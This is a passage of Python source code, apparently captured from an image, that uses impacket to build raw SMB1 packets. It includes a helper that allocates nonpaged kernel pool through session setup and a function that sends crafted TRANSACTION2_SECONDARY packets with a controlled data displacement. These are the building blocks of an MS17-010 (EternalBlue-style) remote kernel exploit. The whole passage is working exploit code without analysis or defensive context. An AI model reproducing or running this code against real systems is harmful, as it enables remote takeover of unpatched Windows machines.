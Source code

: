 ```
	pkt.addCommand(sessionSetup)

	conn.sendSMB(pkt)
	recvPkt = conn.recvSMB()
	if recvPkt.getNTStatus() == 0:
		print('SMB1 session setup allocate nonpaged pool success')
	else:
		print('SMB1 session setup allocate nonpaged pool failed')
	return conn


# Note: impacket-0.9.15 struct has no ParameterDisplacement
############# SMB_COM_TRANSACTION2_SECONDARY (0x33)
class SMBTransaction2Secondary_Parameters_Fixed(smb.SMBCommand_Parameters):
    structure = (
        ('TotalParameterCount','<H=0'),
        ('TotalDataCount','<H'),
        ('ParameterCount','<H=0'),
        ('ParameterOffset','<H=0'),
        ('ParameterDisplacement','<H=0'),
        ('DataCount','<H'),
        ('DataOffset','<H'),
        ('DataDisplacement','<H=0'),
        ('FID','<H=0'),
    )

def send_trans2_second(conn, tid, data, displacement):
	pkt = smb.NewSMBPacket()
	pkt['Tid'] = tid

	# assume no params

	transCommand = smb.SMBCommand(smb.SMB.SMB_COM_TRANSACTION2_SECONDARY)
	transCommand['Parameters'] = SMBTransaction2Secondary_Parameters_Fixed()
	transCommand['Data'] = smb.SMBTransaction2Secondary_Data()

	transCommand['Parameters']['TotalParameterCount'] = 0
	transCommand['Parameters']['TotalDataCount'] = len(data)

	fixedOffset = 32+3+18
	transCommand['Data']['Pad1'] = ''

	transCommand['Parameters']['ParameterCount'] = 0
	transCommand['Parameters']['ParameterOffset'] = 0

	if len(data) > 0:
		pad2Len = (4 - fixedOffset % 4) % 4
		transCommand['Data']['Pad2'] = '\xFF' * pad2Len
	else:
		transCommand['Data']['Pad2'] = ''
		pad2Len = 0

	transCommand['Parameters']['DataCount'] = len(data)
	transCommand['Parameters']['DataOffset'] = fixedOffset + pad2Len
	transCommand['Parameters']['DataDisplacement'] = displacement

	transCommand['Data']['Trans_Parameters'] = ''
	transCommand['Data']['Trans_Data'] = data
	pkt.addCommand(transCommand)

	conn.sendSMB(pkt)


```